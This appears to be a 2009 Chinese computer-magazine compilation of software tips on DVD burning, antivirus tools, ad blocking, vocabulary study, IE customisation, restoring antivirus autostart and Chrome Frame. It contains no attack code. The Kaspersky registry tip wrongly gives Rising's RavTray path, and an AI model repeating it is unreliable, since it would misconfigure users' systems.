可重复中奖如果打钩，则该项允许重复中奖；中奖人必须在现场打钩，则程序在运行到抽取该项的时候，“重新抽取”菜单将可用。如果主持人提示中奖人不在现场，需要重新抽奖时，该菜单就可以派上用场。

| 奖项名 | 奖品名 | 中奖名额 | 抽奖次数 | 可重复中奖 | 中奖人必须在现场 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 一等奖 | 笔记本电脑 | 1 | 1 | 是 | 是 |
| 二等奖 | 数码相机 | 5 | 5 | 是 | 是 |
| 三等奖 | 手机充值卡 | 30 | 1 | 是 | 是 |

| 奖项 | 奖品 | 数量 | 抽奖次数 | 备注 |
| :--- | :--- | :--- | :--- | :--- |
| 一等奖 | 笔记本电脑 | 1 | 1 | 中奖人必须在现场，否则重新抽奖 |
| 二等奖 | 数码相机 | 5 | 5 | 中奖人必须在现场，否则重新抽奖 |
| 三等奖 | 100元手机充值卡 | 30 | 1 | 一次抽奖，抽奖后立即公布名单，中奖人可以不在现场 |

## 经典要私藏

10月1日举行的60周年国庆阅兵式让人回味无穷，大家都想把这一精彩的一幕珍藏在电脑里，你有没有想过，如果把历年的国庆阅兵式都珍藏在电脑里呢？那是怎样的珍品啊！如果刻在一张光盘上，普通的DVD播放机都可以播了，这样的精彩不要只是想想哦！现在就开始动手做！

### 精挑细选 最好视频一举囊括
正所谓“兵马未动，粮草先行”，想珍藏，首先得有原料。现在，几个视频网站都开设了“历年国庆阅兵式”的专辑，其中以央视网(http://jilu.cctv.com/special/yuebing/01/index.shtml)、优酷网(http://www.youku.com/play1ist_show/id_3723135.html)和新华网(http://news.xinhuanet.com/video/2009-09/05/content_12000188.htm)最为全面，但各家视频来源的版本各不相同，如果要创建一个精品收藏，我们还是逐个按年份自己搜索，然后挑选质量最好的(央视网的质量一般会好些)。
第一步：使用E登录谷歌视频搜索页面http://video.google.cn/，在搜索框输入“1949年 阅兵式”，然后单击“搜索”，在列表中我们可以看到视频的来源和时长，除了近几年的视频外，因为之前技术的限制，不会有太长的视频，过长的视频也是增加了其他内容，所以我们展开搜索百宝箱，单击左侧的“4-20分钟”，然后点击时间最长的两个播放即可。

**小提示：**
新中国成立以来，我国共举行过14次国庆阅兵，年份分别是1949、1950、1951、1952、1953、1954、1955、1956、1957、1958、1959、1984、1999、2009。

### 一张盘收下所有
第二步：运行Bywifi视频下载器(下载地址：http://work.newhua.com/cfan/200919/spvz.zip)，在任务栏右键单击其图标选择“设置”，指定视频下载目录。播放上一步选好的视频，然后Bywifi视频下载器就会自动下载了。

**小提示：**
如果使用的是最新版的迅雷，那么鼠标浮动到视频窗口上就会出现迅雷的下载标志，单击下载即可，不过支持率不是很高。
第三步：按照同样的方法，年份加关键词的方法分别下载1999年以前的视频，1949年的阅兵式视频我们可以下载到720P的版本了，打开迅雷，在搜索框中输入“1999年 阅兵式”，然后单击搜索打开结果页面，在结果上方单击“大小”让资源按从大到小进行排列，对比“清晰度”一项，选择最清晰的下载就好了。然后按同样的方法下载今年的，别忘了都保存到一个目录下哦！

### 组合刻盘 自己动手顺利搞定
原料准备好了，都散落在电脑里只能自己欣赏，很想用客厅里的电视和家人一同分享，那就收录在一张光盘里吧！去买一张DVD光盘开始制作吧！
第一步：首先我们来转换下格式，运行狸窝超级全能视频转换器(http://www.newhua.com/soft/79615.htm)，单击右上角的按钮选择“添加”，将我们之前下载回来的视频文件全部添加进来。

### “阅兵式”
第二步：依次选中单个视频文件，单击右侧的播放按钮进行视频预览，你会发现有的视频开头是叙述，我们可以把它去掉。先停止播放，然后单击“关闭”回到软件主界面，选中需要剪辑的视频，单击“视频编辑”，软件会默认播放视频，拖动两头的“箭头”来指开始时间和结束时间，并分别单击“开始时间、结束时间”旁的“应用”按钮，单击“确定”完成编辑(在“效果”选项可以放大原视频的音量)。
第三步：在“输出格式”里选择“MPEG-1影片”格式(一定保证是MPEG格式)，将视频质量和音频质量都调到最高，然后指定输出路径，单击右下角的“转换”按钮开始转换。
第四步：运行超级转换秀的“DVD烧刻向导”(又称DVD视频光盘制作助手，下载地址：http://work.newhua.com/cfan/200919/spkz.zip)，单击添加文件，将视频文件都添加进来，单击“编辑菜单”，进入DVD播放画面的菜单编辑窗口，单击“修改菜单背景图片”指定一个背景图片，然后拖动各个视频窗口自由排列，选中窗口，还可以进行大小调节。如果你对软件默认的视频开始画面不满意，那么可以先选中它，单击“修改缩略图一选取磁盘图片作为缩略图”，选择你制作好的图片即可(这个图片你就可以任意发挥自己的图片处理技巧了)。满意后单击“保存”回到软件主窗口。
第五步：在输出路径中指定光盘文件的保存目录，单击“开始生成”，一会后，DVD文件就制作完成了。现在只需把DVD目录下的两个文件刻成数据光盘就行了。
(上海/刘明)## 不花钱 大牌专杀工具随便玩

提到专杀工具我们都不陌生，杀毒大牌卡巴斯基出的专杀工具你想用吗？而且它可不仅仅是一个专杀，还是系统手动杀毒的好帮手！

首先登录http://avptool.virusinfo.info/en/，在Download (下载) 项下单击here (这里) 下载最新版的Kaspersky Virus Removal Tool，安装后选中全部目录，然后单击scan (扫描) 开始扫描，当出现扫描窗口时，单击上面的暂停按钮，我们先设置一下再扫描。依次打开setting (设置) 下，单击下面的chang setting→customize→general (改变设置→自定义→常规)，勾选中间两个选项，第一项是说扫描这个文件超过多少秒之后放弃，第二项是说如果这个文件超过多少MB我们就放弃，这里我们勾选第二项，输入400MB，再勾选最后一项，扫描受密码保护的文件。

最后单击OK保存，这样既不会再大于400MB的影音文件上浪费时间，也不会放过下载的乱七八糟的压缩包。好了，现在重新开始扫描，有病毒会自动清除的，退出软件时，默认会卸载程序，如果想保留，单击NO就好了。

如果上面的检测没有检查出病毒，但你又觉得不放心，那么来给电脑做个体检吧。切换到Manual Cure (手工杀毒) 选项卡，然后单击Collect system information (收集系统信息)，扫描一段时间后结果就保存好了，单击软件给出的链接提示，\LOG\avptool_syscheck.zip，打开压缩包里的网页就看到了当前系统的进程、服务等所有信息，把这些发给高手或传到论坛，大虾就可以帮你分析出电脑有无问题了。

> (文/张远)

## 千千静听弹广告 百般武器屏蔽它

千千静听近期深陷“广告门”，运行5.5.2版一段时间后你会发现，偶尔会弹出一个广告，再搜一下，很多网友都在谈论此事，看来不是偶然，这个广告实在麻烦，不喜欢，笔者就来禁用它的显示，还桌面清爽！

运行去广告补丁（下载地址：http://work.newhua.com/cfan/200920/ttbd.rar），单击“应用”按钮，软件会自动寻找千千静听的目录，如果你没有按照默认路径去安装千千静听，那么软件会提示没有找到，然后弹出对话框，手动找到千千静听的主程序TTPlayer.exe，单击“打开”，提示补丁加载成功了，退出即可。

> 小提示：
千千静听的广告是自动连接到一个固定地址http://ttmsg.qianqian.com/msg.php?%s&id=%s，下载广告保存在目录下的info文件下，如果你使用的硬盘分区是NTFS格式，那么直接利用权限设置将这个目录设置为只读即可。以后遇到不知名的广告，我们可以按照此法来寻找根源：动态广告一般就2种格式：GIF和SWF，使用通配符搜索SWF和GIF搜索，然后查看搜到的文件，找到文件也就找到了目录，根源也就知道了。

> (四川/败亦枭雄)

## 全民公测 你当我真是全民超人呢

作为软件爱好者，最开心的事莫过于参加软件的新版试用了，在新的功能中感受升级的乐趣，也在使用上得到一种领先他人的优越感。不过这份乐趣正在经受着腾讯的考验。今年，腾讯自发布第一个QQ 2009版以来，经历了SP1、SP2、SP3、SP4，前几天刚发布SP4的试用，没过几天，腾讯体验中心又发布了“QQ2009性能优化测试版”的体验计划。

这下网民傻眼了，大呼一声：“马哥，你玩我呢？”

“入芝兰之室，久而不闻其香”，新版试用靠的就是大家的一份新鲜感，可短时间内连续刺激一根神经，也就索然无味了。有网友戏言“腾讯的软件测试部门是不是已经解散了？测试工作彻底社会化了……”，其实测试版怎么玩，本是无可厚非的事情，本就是一个周瑜打黄盖，一个愿打一个愿挨的事情，可我们这些善良的“黄盖”们倒不在乎周瑜大人想多打几次，可也要等旧伤好了再来打啊！前段时间，Windows 7测试版以几天发布一个测试版的速度让众多“小白鼠”们目不暇接，让很多人高举“不折腾”的招牌，原来渐渐崛起的腾讯也在跟进微软大哥的步伐啊！软件作为一个产品，无论测试版与否，一旦公布出来，那就是一种公开发行，产品提供商就有责任和义务为大家提供一个不损害用户利益的产品。软件的BUG测试应该留在公司内部，不能动不动就来全民总动员，让大家的爱心充当测试费。想想古老的童话故事，当最后一声“狼来了”撕心裂肺地喊出时，已经没有一个人响应了！

## 赢在起点上 开学就把单词练

12月又要考英语四六级了，英语备考，要早早开始准备。电脑不仅仅是用来娱乐的，还可以帮助你学习。好的方法是成功的关键。

### 先过单词关

背单词的关键不是你认识了多少单词，而是大纲中要求的单词你还有多少不认识的。所以关键是把不认识的单词挑出来，然后反复记忆，提高效率。有了需求，下面就要来解决问题了。谷歌金山词霸的生词本功能能很方便的整理不认识的单词，还可以直接打印出来，便于携带。

第一步：安装谷歌金山词霸（下载地址：http://www.newhua.com/soft/90891.htm），下载四六级单词列表（下载地址：http://work.newhua.com/cfan/200919/sljdc.rar），打开谷歌金山词霸和单词列表，将鼠标悬停在需要加入生词本的单词上面，这时将会出现一个悬浮窗，点击悬浮窗上的“加入生词本”按钮即可完成添加。

第二步：在完成所有单词的添加之后，在软件的主界面空白处点击鼠标右键，选择“工具→生词本”。选中所有单词并点击鼠标右键，选中“选中制卡”，然后点击“制卡→设置卡片”，在“卡片设置”中选择列表式，点击“确定”后就可以打印了。

### 攻克难关

单词背的差不多了，就应该开始做真题了。真题中很重要的一部分是阅读，有的时候对一句话的意思不理解，可以试试“划词翻译”，将需要翻译的句子选定，这时会出现一个“译”字，点击就可以翻译了（此功能需要网络支持）。当然这时依然会有不认识的单词，为了和之前的生词区分，需要新建一个生词本。

第一步：打开生词本，选择“生词本管理→新建”，并将生词本的名字改为“阅读生词本”。然后关闭。

第二步：在软件主界面空白处点击鼠标右键，选择“设置→软件设置”，在“生词本”页面中选择“不提示，直接加入阅读生词本”。确定退出，然后按照上面介绍的方法添加生词，打印即可。

如果在做真题的过程中，只有图片格式的，或者部分PDF格式的文件词霸无法正常取词，不妨试试有道桌面词典（下载地址：http://www.newhua.com/soft/63997.htm）的OCR识别功能，安装有道桌面词典并运行，在“设置→屏幕取词→其他”中勾选“使用OCR技术取词”。

> 小提示：
谷歌金山词霸取词可以设置延迟，防止一动就弹窗。在“设置→软件设置→取词/划词”中有关于“取词延时”的设置，各位读者可以根据自己的需求设置延时。
查询单词时，下面会提示动词的时态变化
谷歌金山词霸强化了汉字查询功能，支持手写输入，方便生僻字的查询。汉字添加笔顺信息，方便使用手机笔画输入法。

## 菜鸟也能当“高手” MM美化IE显身手

漂亮的女白领安娜最近买了一台新的上网本，周末经常带着它去西湖边的星巴克上网，常看到其他女孩子用的浏览器五花八门，非常羡慕，特别想改造一下IE浏览器，本想求助旁边的同事，没想到使用超级兔子，她自己都轻松办到了。

### 第一步：80后个性美化

IE浏览器颜色多变，背景图案先变成自己的靓照吧！启动超级兔子，依次点击“工具→魔法设置→个性化→外观”选项，在“IE背景图案”处单击“浏览”，指定一张BMP格式的靓照图片作为IE浏览器的背景，单击“确定”完成。切换到魔法设置的“桌面及图标”中，在右侧“桌面图标”中选中“IE浏览器”，单击“修改图标”，指定一个自己喜欢的图标，单击“确定”完成修改。如果加入了快速启动栏，切换到“快速启动栏”一项同样可以修改IE的快速启动图标。

> 小提示：
IE背景图案对IE8暂时不起作用，“IE背景图案”修改只支持BMP格式的图片，如果是其他格式的图片，可以用Windows画图软件打开，选择另存为BMP格式就可以了。

### 第二步：我也有专版浏览器

安娜一直嫉妒同事小美有个专版浏览器，据说是她老公专门给她弄的。今天，她也想有自己的专版。
切换到魔法设置的“网络”一项中，单击“常规设置”，在IE标题中输入“专为安娜设计”，单击“应用”，以后启动IE，就会在标题后面看到个人专版的字样。

### 第三步：让IE内外网兼修

IE美化倒是做完了，不过现在讲究内涵，IE也同样，于是安娜再打开“魔法设置”，在“优化系统”中选择“自动优化”，在上面勾选“全部都不选择”，然后勾选“优化IE浏览器”，单击“下一步”完成加快网络速度方面的优化。

> 小提示：
在“魔法设置→网络”选项里，还可针对IE浏览器进行更详细的优化。例如，可以在“IE菜单”中删除不需要的右键菜单选项，可以在“IE选项及按钮”中删除不需要的工具条按钮或者为其改名。另外，在“常规设置”中勾选“让IE使用多点连接下载”，从此不用专业工具也可以实现多进程下载了，下载速度将会有很大的提升哦！

## 电脑异常 用听诊器给电脑 “看病”

当电脑遇到未知病毒，或你感觉电脑存在异常，用杀毒软件又没有发现病毒时，你就会一筹莫展。这时你如果有一个瑞星听诊器（下载地址：http://work.newhua.com/cfan/200921/tzq.rar）就好办了。顾名思义，它可以扫描电脑的系统信息、多个家族病毒变种，并提取可疑文件到指定目录。

第一步：运行瑞星听诊器，默认勾选“快速扫描”和“生成日志”。这里我们取消勾选“快速扫描”来进行详细地分析扫描（完全扫描），这样扫描的时间会比“快速扫描”稍长一些。而如果取消勾选“生成日志”，则扫描结束后不生成系统信息日志文件。

第二步：点击“开始扫描”按钮，程序主界面下端将显示扫描进度以及扫描到的文件信息。如果检测到可疑文件，则在扫描结果的表中罗列出来，并显示文件所在路径、文件名、疑似家族病毒名以及相似度。程序主界面扫描结果的第一列将显示是否提取对应的文件（默认是勾选提取）。

第三步：扫描结束后，扫描结果将显示检测到的可疑文件，并在主界面的底部提示发现可疑文件的数量。这时点击“打包提取”按钮，会把已勾选的文件存放在工具所在目录的VirusUp子目录中。

第四步：在弹出的对话框中点击“确定”按钮，主程序底部会显示提取的结果。扫描前如果勾选了“生成日志”，扫描结束后将在工具所在目录下自动生成文件“瑞星听诊信息.htm”，里面记录扫描结果以及用户系统的注册表相关信息。运行完成后，用户需要把提取到的可疑文件（如果有的话）以及“瑞星听诊信息.htm”文件压缩后上传给瑞星公司以便进一步分析。

（瑞星安全工程师/唐威）

## 你的截图能上传吗

说到截图，现在有不少的截图软件都可以做到，但是如果您要截图后即刻将图片上传，与更多的网友分享，可不见得个个截图软件都能够做到了。

第一步：下载并运行clip2net（下载地址：http://work.newhua.com/cfan/200918/c2n.zip），点击“启动程序”按钮进入，这时在右下角的任务栏上会生成一个小图标。右键点击它，有很多菜单选项，选择“发布桌面区域”，鼠标箭头上出现一块白色方块，此时可以用鼠标拖动欲截图的区域，即可在clip2net软件界面里自动生成截图图片。

第二步：点击“发布”，跳出一个upload（上传）窗口，刚才您点击“发布”这个操作已经将图片上传到互联网空间里，瞧！很方便吧！完全不需要注册登录，一键搞定。窗口里会显示刚刚上传的图像URL地址，以及您需要发布到博客、BBS或者其wb网站所需要的代码。

小提示：clip2net还可以录制视频上传发布，或者将其他文件上传发布，这些都在菜单里可以看到操作选项，但是除了图片可以在不注册不登录的情况下就直接上传之外，其他文件格式就要求您要注册成为会员（注册地址是http://clip2net.com/members.html）后才能上传发布。

（重庆/陈佳）

俗话说“病从口入”，电脑也是如此。如果能从浏览器上防住病毒、木马，电脑就可以减少大部分的威胁。换用安全的浏览器不失为一种选择，但这种有所舍弃的方法咱不推荐，无论你使用哪款主流浏览器，都可以用一种方法保护。

## 不换浏览器 网页木马也能防

第一步：下载并安装“金山网盾”（下载地址：http://labs.duba.net/wd.shtml，安装中可取消捆绑安装的“金山密保”）。安装完成后默认调用IE浏览器打开测试页面（右下角提示开启绿色边框效果），单击“点击测试”按钮，如果有红色提示框说明金山网盾正在保护当前浏览器。

小提示：如果你使用的不是IE浏览器，那么可以复制地址http://blog.duba.net/wd/index.html到你喜欢的浏览器地址栏，打开后做同样测试即可。软件兼容FireFox、Opera、Chrome浏览器等主流浏览器。如果你发现不支持你的浏览器，可以在程序组中找到金山网盾，依次单击“设置→自定义保护→添加”，找到浏览器的EXE文件添加进来即可。

第二步：默认安装后，金山网盾在任务栏里是没有图标的，要设置，需要在程序菜单找到它，单击“设置→基本设置”，勾选“启动托盘图标”，单击“应用”就有了（设置固定后可以再取消显示）。切换到“IE首页保护”，勾选“锁定IE首页”，然后输入首页地址，单击“锁定”，以后就再也不会有首页被修改的麻烦了。现在启动浏览器，会发现浏览器有个绿色边框，说明浏览器正在受到保护（可在设置中取消），放心上网就好了，一旦浏览危险网页，右下角会有提示，并进行拦截和清除。

（北京/小刀侠）

## 抛开浏览器 照样玩校内（人人）

在玩QQ的同时，我们也不得不保留对人人网（校内网）的关注，好友都是同学，看看大家的新鲜事，感觉还真不一样。不过每次去都要用浏览器登录，和同学聊天更是麻烦……别苦恼了，这些都随着人人网桌面版（http://www.onlinedown.net/soft/91610.htm）的出现而消失了。

### 抢沙发，聊天，我最快

每次登录人人网，一大堆的新鲜事看起来很不方便，从人人网桌面版登录后，单击“新鲜事”，所有与你有关的更新内容就都出现了，单击左侧的按钮，就可以看到好友最新发布的日志、留言、照片。单击“回复”，像发消息一样方便地完成评论了。如果恰好好友在线，单击“好友”，在列表中双击它，就可以直接聊天了。注意看，你会发现他的名字旁会有提示，是网页在线还是软件在线一览无余。如果是网页在线他或许回复不太及时，就不要抱怨了。如果好友过多，你会发现给你的清单太少了，那就依次选择“设置→新鲜事”，在最上面将最多显示的条目数调到最高就好了。

小提示：安装桌面版后，在程序菜单里还能看到一个测试工具，启动后，可以对你现在的网络速度进行一下测试。单击“应用”，可以看到人人网上的“开心农场”，种菜、偷菜，行动迅速。

### 事不关己 高高挂起

软件的提醒设置，可以只提示与自己相关的留言、日志等，每当有更新，软件就会以“冒泡”的形式通知你。如果觉得太烦，我们可以让她更智能些，右键单击图标进入“设置”，选择“提醒”，在右侧就可以看到“新鲜事提醒”列表了，取消项目上的对钩，自己不想关注的东西就不会提示了。

（天津/马瑞）

## 动动我试试 键鼠不动我就不动

锁定电脑的方法较多，比如屏保锁之类，这类锁都要设置密码，一旦密码忘记，锁定的不仅是别人！这里再向大家推荐一款有趣的小软件，“BlockInput”（下载地址：http://work.newhua.com/cfan/200919/gjs.rar），利用它可以在指定的时间段锁定键盘和鼠标。

运行后，图标自动最小化到系统托盘。右击该图标，从右键菜单中选择Settings（设置），弹出设置窗口，在Hotkey中指定锁定热键，Delay（延时）中输入时间数值，单位为秒，这个时间即为锁定键盘和鼠标的时间。设置完成后，单击OK按钮。有事离开时，单击再设定的热键（默认为Ctrl+Q），发现什么了？键盘鼠标都没有了反应，在鼠标指针旁边，有一显示解锁倒计时窗口，在倒计时结束之前，不能对电脑进行任何操作，不知情的人，肯定不知是怎么回事。

（文/春草年年绿）

## 账号很淘气 保镖怎么当

面对互联网上日益增多的应用（QQ、MSN、网上银行、游戏）和日趋严重的安全问题，我们的账号也成为黑客们眼中的“肥肉”，装个密码保险箱？如果你在使用瑞星2010版，那就不用了，它自带了“瑞星账号保险柜4.0”。

### 小孩乱跑 保镖跟上

对于传统的程序，例如，网络游戏、股票软件、聊天工具等有实体程序的保护，瑞星账号保险柜4.0都是自动完成的。不过，如果重装系统、软件的安装路径发生变化时，账号保险柜没有自动扫描出来，那怎么办呢？打开瑞星账号保险柜4.0，选中要进行保护的程序（例如：迅雷），点击右下方的“修改路径”，在弹出的对话框中选择迅雷的正确路径后，点击“确定”就好了。

### 冷门死角 保护无误

我们往往还会使用自己开发的一些软件，由于信息不公开，软件扫描不出来！这时，我们可以自己添加想保护的软件。首先打开瑞星账号保险柜4.0，点击界面右下角的“添加保护软件”，在弹出的界面中，自己输入软件名称和软件类别，选择软件路径后“确认”即可。对于一些交互复杂的软件，例如某些网游、外挂，可以在下面“高级信息”处添加“允许访问的软件”（例如：反作弊器或外挂）就可以了。

小知识：在启动网银、支付宝、QQ软件或网页后，“瑞星账号保险柜4.0”就会在系统底层对这些软件进行保护。自动屏蔽黑客、盗号木马常用的多种恶意行为（查找窗口消息、记录键盘、读取内存信息、发邮件等等）。

### 认准按钮 不被抢钱

网络购物中的安全，软件自然也想到了。不过要注意一下，首先选中要保护的银行，在右下方点击“开启保护”，点击“打开xx银行”，一定要通过这个按钮来打开网上银行的页面才能实施保护。如果是选中“开启保护”后，在浏览器中直接输入网上银行网址，账号保险柜是无法进行保护的。通过账号保险柜打开网银页面后，会在桌面右下角出现一个提示，例如“招商银行已经被保护”。好了，现在大家就可以全心踏实的上网交易，而不必为害怕木马盗号而无法享受网上购物带给我们的快感。

（瑞星安全工程师/唐威）

## 80后小生携“音速启动”开启IT之门

装的软件多了，程序菜单就会塞得满满的，找个软件很难，而且有时正在打字，忽然想运行某个软件，还要切换回桌面或开始菜单查找，烦琐之极。其实我们不就想快点启动软件吗？装一个工具，把常用的快捷方式集中起来，再采用最方便的浮动窗口，方便调用，这一切不就完美了吗？别忙，这说的不就是“音速启动”这个软件吗？没错，下面就由音速启动的作者凌聪来展示“音速启动”。

凌聪
专业：计算机 毕业时间：2006年
软件作品：音速启动、玩转颜色、一步登网等
3LSoft工作室成员：柠檬（凌聪）、企鹅、自燃
软件小档案：音速启动
开发者：凌聪
开发语言：VB
软件性质：免费软件
支持平台：Windows 2000/XP/2003/Vista
下载地址：http://www.3lsoft.com/VStart/

### 一天写一个软件

从照片上来看，凌聪和现在的80后一样，看不出什么不同，一样地经历高考，走过四年大学，在就业压力的年代步入职场。细细攀谈，在那个常被冠以“黑色”前缀的高三，他和两位同学成立了一个软件工作室——3LSoft工作室，一起做起了软件。
凌聪是工作室的编程主力，高一时家里有了电脑，没事做就看起了朋友给的编程书，一下子就喜欢上了，他从高一开始，每天晚上都抱着编程的书，一边看，一边做笔记，时常看到深夜。脑子里有东西了，也就憋不住了，先是编了一个用来分割大文件的软件，受到很多人的喜爱，他告诉记者：“学编程，写个软件，特别有成就感”。日积月累，他就成了高手，高三时用一天时间完成了音速启动1.0版的开发。

### 有志不在年高

凌聪高三发布了1.0版后就进入了大学，大学课余时间是很多的，可这位80后小伙和代码结下了不解之缘，课余时间几乎都是在更新音速启动。那时，周末两天的整块时间很宝贵，他肯定是在写代码，然后发布一个新版本。那段时间，音速启动一周发布一个新版本正是源于这个原因。不过，音速启动太受大家欢迎了，大家也喜欢为软件出谋划策，每收到一个建议，他都会认真考虑，他谈到“那会，把周末全用在更新上都满足不了大家提出的需求，太多了”！
现在来看，快捷方式启动软件不少，在当时没有dock的概念，国外有一个同类软件是一堆的方格，凌聪觉得不好，他认为QQ的列表界面很新颖，还能自动隐藏，正好用在解决桌面快捷方式成堆的问题。2002年那会，没有现成的分组列表控件，音速启动的控件是他自己参照QQ来开发的（内部名称为XList），虽然这个控件都是一堆的图片框堆积组成的，但出奇的好用，曾有很多家公司想购买这个控件，只是凌聪没有答应。
现在，凌聪在通讯企业做编程开发，工作很忙，没有精力再去开发新的软件了，音速启动基本上就是“关门弟子”了，他会继续加强软件的功能，后期往网络应用发展，提供在线备份、在线存储等功能，大家期待吧！

- 通过音速启动可以自动登录多个QQ账号。只要在音速启动栏目范围点击右键，选择“添加自动登录”，再选择“软件登录”，输入要登录的QQ号码和密码，点击确定就能生成一个能自动登录该QQ的快捷方式，使用该方法，可以添加多个QQ账号，并且每个QQ账号都能自动登录。
- 音速启动也能清理电脑。双击列表空白处，会出现“自定义添加”窗口，输入标题和选择一个图标，然后点击链接右边的“添加批”按钮，将出现添加批处理的窗口，添加以下几个系统功能：“清空IE地址栏记录、清空回收站、清空IE历史记录、清空历史文档”到批里面，添加完以后，点击“确定”，完成“清理助手”快捷方式的添加，以后清理系统就方便多了(更多技巧可访问http://www.3lsoft.com/VStart/qa/)。

### 八卦问答

- **买电脑怎么不玩游戏？**
当时买的是二手电脑，内存只有16MB，玩不了游戏，一个月下来没意思，就看起了编程书（PS：家长可以借鉴哦）。
- **高三写软件耽误学习，你后悔吗？**
塞翁失马焉知非福，虽然没考上理想的大学，不过靠练就的技术我也找到了好工作，当时后悔的是没和喜欢的女孩一起考上华南理工大学，当然，也因此我才有缘认识了现在的女朋友。
- **写软件赚钱吗？**
完全免费，自己每年还要拿出一千多元来维护网站呢。

(本刊记者/白斌)

## 冤假错案 找回丢失的杀软自启动

管理自启动程序，却不知道哪天把杀软的自启动给弄没了，不知道是病毒还是自己误操作，原因先不用找了，赶紧恢复才是正事（这里我们暂不讨论因为病毒对杀毒软件进行专门劫持的情况）。

### 莫慌张 自动修复很简单

#### 卡巴斯基

修复卡巴斯基自启动可通过自带的修复功能解决，在程序菜单找到卡巴斯基杀毒软件组，选择“修改、修复或卸载”项，在打开的安装向导中直接选择修复即可（无法在安全模式下进行）。
小提示：
也可以通过修改注册表来解决：定位到[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]，新建名为“RavTray”的字符串项，设置其值为：“C:\Program Files\Rising\Rav\RsTray.exe” -system”（具体路径视安装路径为准）。

#### 瑞星

与卡巴斯基类似，瑞星本身也提供了修复功能，打开控制面板的“添加或删除程序”，找到瑞星安装项并单击“更改/删除”，启动向导后选择“修复”，经过修复安装后便可解决其自启动的问题了。

#### 江民

解决江民的方法较简单：先从“开始”菜单中启动江民监控中心，再双击托盘区江民杀毒软件图标，单击“设置→常规”，在右侧窗口中勾选“开机时自动开启监控”选项，保存设置即可。

### 软件不智能 手动才万能

#### ESET NOD 32

一些杀毒软件没有提供自动修复功能，例如ESET NOD 32，修复它的自启动就要用手动了。
第一步：打开任务管理器，在“进程”里检查是否有“ekrn.exe”项，如果没有则手工启动，按Win+R打开运行对话框，输入“services.msc”回车打开服务管理器，找到“ESET Service”，将其启动类型设置为“自动”。
第二步：依次定位到注册表的[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]，在右侧右键单击，选择“新建→字符串值”，名称设置为egui，值设置为“NOD32安装目录\egui.exe” /hide /waitservice（例如“C:\Program Files\ESET\ESET Smart Security\egui.exe” /hide /waitservice）。
小提示：
路径中的引号是英文输入法状态下的双引号，而且此双引号不能省略。此外，未激活状态下需要将egui.exe换成激活程序essact.exe（对应的路径及参数为“C:\Program Files\ESET\ESET Smart Security\EsetAct\essact.exe” –waitservice）。

(安徽/daigua)

## 谷歌充当“第三者” 期待“鸠占鹊巢”

近期，谷歌推出了Google Chrome Frame插件，它可以让各版本IE在毫不改变外观的情况下换用Chrome的浏览器核心，一时间，大众舆论都开始关注微软、谷歌的动作，两家的简单对话也被描绘得火药味十足。其实，谷歌的这个IE插件并不是直接换掉IE核心这么严重，仔细研究发现，安装Google Chrome Frame插件后，IE并不是自动鸠占鹊巢，替代原核心，只是给了浏览器另外的选择，只有当浏览器解析的网页里嵌入了改用Google Chrome Frame的指令，浏览器才会换用Chrome核心，浏览普通网页，IE浏览器还是用自己的内核。
当然，这样的威胁是很严重的，这也就相当于在原配夫妻的生活里出现了第三者，之前妻子IE可以撒娇，可以犯错误，网站老公也只能忍着，让着，但现在不同了，网站有了新的选择，通过对比测试，无论是Acid3网页标准测试，还是Peacekeeper性能测试，在换用Chrome核心后，IE得分迅速飙升（测试数据见下表）。也就是说，新来的第三者长得和妻子一模一样，但是内心却比妻子强好几倍，而且没有妻子的毛病。一旦妻子表现不好，网站设计者只需用一句话（只需在网站页面前加入一句代码）即可与IE核心断绝夫妻关系，揽Chrome核心开始新的生活。
但现在是第三者看上了老公，老公暂时没有变心，第三者也还没有住进家里，威胁加剧，但也仅仅是威胁，虽然只需在网页开头加一句指令，海量的网站不可能立马去修改自己的网站。普通用户要想启用插件，还只能在网页地址前加“cf:”来实现，只有当用户安装插件，网站提供指令这两个条件同时满足才能让IE更换核心。而舆论的反应却有点过了，或许是因为IE在浏览器市场占据大哥的位置太久了，大家实在想看到变化，所以每次其他浏览器有新的动作，都会推波助澜，但可惜，IE在中国先入为主，用户量超大，即使不遵守别人的标准，网站也得将错就错，跟着IE走。这次Google Chrome Frame插件给出了解决这一矛盾的方法，但可惜还要看IE现有用户和网站设计者的脸色行事，如果有一天，Google Chrome Frame插件争取到了用户，一切才有变数，“鸠占鹊巢”只是期待。

测试表格（同平台下）
| 软件 | ACID3 | Peacekeeper |
|---|---|---|
| 使用IE核心的IE8 | 20 | 581 |
| 使用Chrome核心的IE8 | 100 | 3130 |
| Chrome3.0 | 100 | 2945 |## 不用PS 直接查看PSD图片各图层

网络上丰富的图片素材可以省掉我们作图时的很多烦恼，但不爽的是大多是PSD格式的。下载回来查看很不方便，非得用Photoshop吗？别忘了XnView，它不仅可以直接查看多图层的PSD图片中的各图层，连设置为不显示的都可以看到哦！来试试看吧！

首先当然是安装最新版的XnView（下载地址：http://work.newhua.com/cfan/200918/xnview.rar），然后打开你要查看的PSD图片（这里我们选用了一张设置为不显示的图片），首先看到的是一片空白，别担心，就是用PS打开这张图片，显示的也会是一片空白，因为图片的图层都做了不显示处理。然而再细看工具栏这里的三个图标，单击中间的那个图标（下一页），秘密瞬间就显露了！一张张图片都显示出来了（XNVIEW默认从最底层的图层起查看，单击页面后的按钮可以查看任意图层）。

## 只需一个键 好东西快速进空间

常在网上飘，淘到个'金子'什么的是稀松平常的了，接下来你是否要存到本地，然后再发到QQ空间显摆啊？这样太麻烦了，如果你喜欢QQ空间，那么来看看达人的做法。

如果是喜欢用TT浏览器，那么你不妨使用TT浏览器QQ空间专用版（下载地址：http://work.newhua.com/cfan/200920/ttkjb.rar），首先使用你的QQ账号登录浏览器，这样平时浏览网页时，看到好的内容，先选中，然后单击菜单栏上的'QQ空间一键转载'，弹出一个空间发布对话框，标题和转载说明都帮你自动生成了，如果不喜欢，自己去掉，最后单击'转载到我空间'就可以了。

## 下载？玩游戏？保护文件？我说了算！

试试NB自动关机工具（下载地址：http://work.newhua.com/cfan/200919/nbgi.rar），这个软件不仅是关机这么简单哦。

## 没有数据线 照样通讯

通常，要将手机中的照片、视频传到电脑中，或是从电脑中将歌曲、电影传到手机中，都需要数据线来担当中间桥梁，但有时候手头可能没有准备现成的数据线，急需要传输数据咋办？其实，手机与电脑间还有很多通讯的桥梁可以完成数据交换，并不局限在数据线。

### 桥梁一：无线蓝牙，数据线外的最佳桥梁

